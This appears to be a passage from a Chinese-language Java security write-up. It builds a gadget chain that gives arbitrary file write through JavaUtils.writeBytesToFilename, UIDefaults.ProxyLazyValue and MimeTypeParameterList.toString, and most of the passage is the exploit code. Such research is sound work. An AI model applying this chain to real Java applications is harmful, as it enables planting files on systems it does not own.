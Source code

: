 所以后面看到这个链子

**1.任意文件写**

用的是JavaUtils#writeBytesToFilename

```java
public class writefile {
    public static void main(String[] args) throws Exception {
        String a="hahah";
        byte[] bytes = a.getBytes(); //文件的数据
        String filename="/tmp/success";//文件路径
        Class<JavaUtils> javaUtilsClass = JavaUtils.class;
        Method writeBytesToFilename = javaUtilsClass.getDeclaredMethod("writeBytesToFilename",String.class,byte[].class);
        writeBytesToFilename.setAccessible(true);
        writeBytesToFilename.invoke(javaUtilsClass,"/tmp/1111",bytes);
    }
}
```

后面在这里ProxyLazyValue#createValue中找到调用任意任意public类的public static修饰的方法

```java
public static void main(String[] args) throws Exception {
        String a="hahah";
        byte[] bytes = a.getBytes(); //文件的数据
        String filename="/tmp/success";//文件路径

        UIDefaults uiDefaults = new UIDefaults();
        UIDefaults.ProxyLazyValue proxyLazyValue = new UIDefaults.ProxyLazyValue("com.sun.org.apache.xml.internal.security.utils.JavaUtils","writeBytesToFilename", new Object[]{filename,bytes});
        proxyLazyValue.createValue(uiDefaults);  //createValue这个方法会调用任意public类的public static修饰的方法

    }
```

完整

```java
public static void main(String[] args) throws Exception {
        String a="hahah";
        byte[] bytes = a.getBytes(); //文件的数据
        String filename="/tmp/success";//文件路径

        UIDefaults uiDefaults = new UIDefaults();
        UIDefaults.ProxyLazyValue proxyLazyValue = new UIDefaults.ProxyLazyValue("com.sun.org.apache.xml.internal.security.utils.JavaUtils","writeBytesToFilename", new Object[]{filename,bytes});
//        proxyLazyValue.createValue(uiDefaults);  //createValue这个方法会调用任意public类的public static修饰的方法
        uiDefaults.put("fff",proxyLazyValue);

        Class clazz = Class.forName("java.awt.datatransfer.MimeTypeParameterList");

        Field theUnsafe = Unsafe.class.getDeclaredField("theUnsafe");
        theUnsafe.setAccessible(true);
        Unsafe unsafe = (Unsafe) theUnsafe.get(null);
        Object obj = unsafe.allocateInstance(clazz);

        Field parameters = clazz.getDeclaredField("parameters");
        parameters.setAccessible(true);
        parameters.set(obj,uiDefaults);

        obj.toString();
    }
```
